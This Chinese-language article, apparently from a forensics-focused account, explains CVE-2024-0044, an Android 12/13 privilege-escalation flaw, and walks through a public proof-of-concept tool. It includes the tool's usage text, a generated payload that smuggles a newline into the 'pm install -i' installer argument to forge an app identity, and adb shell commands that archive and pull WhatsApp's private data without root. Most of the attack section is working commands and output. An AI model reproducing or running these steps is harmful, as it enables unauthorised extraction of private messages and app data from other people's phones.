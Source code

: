 #  为啥取证厂商扎堆突破安卓12/13提权？来看看CVE-2024-0044高严重性漏洞   
Ots安全  取证者联盟   2024-07-02 20:58  
  
CVE 2024 0044  
  
CVE-2024-0044 位于 PackageInstallerService.java 文件的 createSessionInternal 函数中，是一个影响   
Android 12  
 和 13 版本的高严重性漏洞。此漏洞允许攻击者执行“以任何应用身份运行”攻击，从而导致本地特权提升而无需用户交互。此问题是由于 createSessionInternal 函数中的输入验证不当而引起的。攻击者可以通过操纵会话创建过程来利用此漏洞，从而可能未经授权访问敏感数据并在受影响的设备上执行未经授权的操作  
  
该漏洞由Meta Security发现：  
  
https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html  
  
Tiny hack总结并分享了概念证明：  
  
https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03  
  
有关安全补丁的详细信息，请参阅Android 安全公告：  
  
https://source.android.com/docs/security/bulletin/2024-03-01  
  
先决条件  
  
在手机上启用 USB 调试，然后使用 USB 数据线或无线调试将其连接到您的机器  
  
下载任意 apk 到你的机器上，你都可以使用F-DROID  
  
如何使用该工具  
```
python3 cve_2024_0044.py -h

##########################################################################################
###############S%%#####################################################%%S################
###############%++*S##################################################?++?################
################%++*S###############################################S*++?#################
#################%+++%#############################################S*++%##################
##################S*++%###########################################%+++%###################
###################S*++?#########SSS%%?????***?????%%%SS#########%++*S####################
#####################?++*##S%%?**+++++++++++++++++++++++**??%S##?++*S#####################
######################?++**+++++++++++++++++++++++++++++++++++**++*#######################
###################S%?*++++++++++++++++++++++++++++++++++++++++++++?%S####################
#################%?+++++++++++++++++++++++++++++++++++++++++++++++++++*%S#################
##############S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++?S###############
############S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S#############
##########S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S###########
#########%+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++?##########
#######S*+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S########
######%++++++++++++++*%SS%?+++++++++++++++++++++++++++++++++++?%SS%*++++++++++++++%#######
#####%++++++++++++++*######%+++++++++++++++++++++++++++++++++%######?++++++++++++++?######
####?+++++++++++++++*######S+++++++++++++++++++++++++++++++++%######?+++++++++++++++?#####
###%+++++++++++++++++*%SS%?+++++++++++++++++++++++++++++++++++?%SS%*+++++++++++++++++?####
##S+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%###
##*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++S##
#%+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++?##
#*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++S#
S+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%#      

usage: cve_2024_0044.py [-h] -P P -A A

CVE-2024-0044: run-as any app @Pl4int3xt

options:
  -h, --help  show this help message and exit
  -P P        package name (default: None)
  -A A        apk file path (default: None)
```  
- -P用于指定要作为目标包运行  
  
- -A指定设备中要推送的 apk 文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeewNylaKBDlPl60b63icanfNHuL3NBxmyZLnp9GsTZY4c5InwvJbAKYtMlxiaG7RXQcXJHBBQC0ASA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
开发  
  
运行工具   
python3 cve_2024_0044.py -P com.whatsapp -A /home/pl4int3xt/Downloads/F-Droid.apk  
  
payload.txt 将生成如下文件  
```
PAYLOAD="@null
victim 10289 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
```  
  
**该工具自动执行部分操作，其他部分则需要手动操作。您可以在生成有效负载后退出并手动运行所有命令，也可以按照说明继续操作**  
  
**接下来，你需要使用 adb shell 连接到你的设备并粘贴有效载荷，并确保Success在最后一个命令后收到一条消息**  
```
pl4int3xt ~>  adb shell
pixel:/ $ PAYLOAD="@null
> victim 10289 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pixel:/ $ pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
Success
```  
  
**接下来我们使用以下命令获取 whatsapp 数据**  
```
pixel:/ $ mkdir /data/local/tmp/wa/                                                                            
pixel:/ $ touch /data/local/tmp/wa/wa.tar
pixel:/ $ chmod -R 0777 /data/local/tmp/wa/
pixel:/ $ run-as victim
pixel:/data/user/0 $ tar -cf /data/local/tmp/wa/wa.tar com.whatsapp
```  
  
创建临时目录：  
mkdir /data/local/tmp/wa/  
  
为 tar 文件创建占位符：  
touch /data/local/tmp/wa/wa.tar  
  
设置完全开放的权限：  
chmod -R 0777 /data/local/tmp/wa/确保任何用户都可以在此目录中读取、写入和执行。  
  
切换用户上下文：  
run-as victim 获得与“受害者”用户相同的权限。  
  
存档目标应用程序的数据：  
tar -cf /data/local/tmp/wa/wa.tar com.whatsapp  
，创建 WhatsApp 数据目录的   
tarball  
。  
  
**最后拉取数据**  
  
adb pull /data/local/tmp/wa/wa.tar  
  
7z您可以使用或任何其他工具提取数据  
  
您可以使用Whatsapp 聊天导出器将其转换为 HTML  
  
这允许您在设备上无需 root 权限即可获取 whatsapp 数据  
  
```
https://github.com/pl4int3xt/cve_2024_0044
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Dibsyb3L6icr8y4qMPImoEXaPx5tpQpna47HRklmJyibc2oxMIg6gSzIFXDvuibicG0jOXMLJibZLrBiaGMnC9zOHajVA/640?wx_fmt=jpeg "")  
  
  
